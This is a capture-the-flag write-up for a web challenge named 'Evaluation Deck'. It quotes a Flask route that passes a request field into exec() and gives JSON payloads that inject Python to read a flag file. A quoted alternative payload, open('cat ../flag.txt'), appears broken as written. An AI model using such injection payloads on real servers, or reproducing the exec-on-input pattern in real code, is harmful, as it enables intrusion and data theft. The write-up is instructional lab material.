




# Evaluation Deck
web | easy | 200pts

>A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## First Impressions

The website contains a set of cards, and depending on the cards selected, the ghost's health changes.



Going into the source code of the website through Inspect Element showed me the values for each of the cards. With this I defeated the ghost, but nothing happened.




Knowing there's more to this challenge, the next step was to into the challenge files. It is a Python application using the [Blueprint feature](https://realpython.com/flask-blueprint/)

```txt
web_evaluation_deck
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   ├── card1.png
│   │   │   │   ├── card10.png
│   │   │   │   ├── card11.png
│   │   │   │   ├── card12.png
│   │   │   │   ├── card13.png
│   │   │   │   ├── card14.png
│   │   │   │   ├── card15.png
│   │   │   │   ├── card16.png
│   │   │   │   ├── card17.png
│   │   │   │   ├── card18.png
│   │   │   │   ├── card19.png
│   │   │   │   ├── card2.png
│   │   │   │   ├── card20.png
│   │   │   │   ├── card3.png
│   │   │   │   ├── card4.png
│   │   │   │   ├── card5.png
│   │   │   │   ├── card6.png
│   │   │   │   ├── card7.png
│   │   │   │   ├── card8.png
│   │   │   │   ├── card9.png
│   │   │   │   ├── card_back.png
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt
```

After looking through the source code, a vulnerability was foudn in  `application/blueprints/routes.py`.

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

Each time a move is played, a POST request is sent to `get_health()` which calculates the health of the ghost. This can be seen when intercepting the request using Burp.



The health is calculated using three parameters - `current_health`, `attack_power` and `operator`, the last two values coming from the card you choose.

```python
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
return response(result.get('result'))
```

The three values are entered into a compile function, which takes python code and evaluates it. This code is then executed and the result is displayed on the website. 

Since we can intercept the request and change the values, this opens the possibility to RCE or remote code execution. However, out of the three parameters, only `operator` is vulnerable, as `current_health` and `attack_power` can only be integer values for the compile function to run successfully.

## Solution

The payload to be created needs to work within the existing command, free of any syntax errors, to execute successfully. I realized I overthought the payload after seeing much simpler solutions, but I'll describe it here anyways.

Since the result of the payload is an integer, the idea was to get the ASCII bytes of the flag. After trial and error, this was the final payload.

```json
{
    "current_health": 0,
    "attack_power": 0,
    "operator": "+ int(''.join([str(ord(i)) for i in open('../flag.txt').read()])) + "
}
```
This is what the payload would look like when being executed

```python
result = 0 + int(''.join([str(ord(i)) for i in open('../flag.txt').read()])) + 0
```

Here is the breakdown;
- None of the fields could be empty, so I set both current_health and attack_power to 0.
- The operator field starts off with the plus sign, so that the statement executes successfully.
- To get the individual flag characters, we first need to open the file and iterate through each character. This is done using a list comprehension, and each character is converted to its ASCII number using `ord()`. 
- To append the values instead of adding them in the join function (string 'ab' displays as 6566 instead of 65+66 or 131), I converted the characters to strings using `str()`.
- All the values are then added to one string using `join()`. 
- The final conversion is the integer conversion, as the other values are also integers.

To show you how complicated the above payload is, here is another payload I saw from another solution. :/

```json
{
    "current_health": 0,
    "attack_power": 0,
    "operator": "; result = open('cat ../flag.txt').read();"
}
```

Anywho, executing the payload through Burp Repeater gives us the ASCII values of the flag as the output, converting it to string values gives us the flag.



```txt
$ python3 -c 'print("".join([chr(int(i)) for i in "72 84 66 123 99 48 100 51 95 49 110 106 51 99 116 49 48 110 115 95 52 114 51 95 71 114 51 97 116 33 33 125".split(" ")]))'
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```

Flag: `HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}`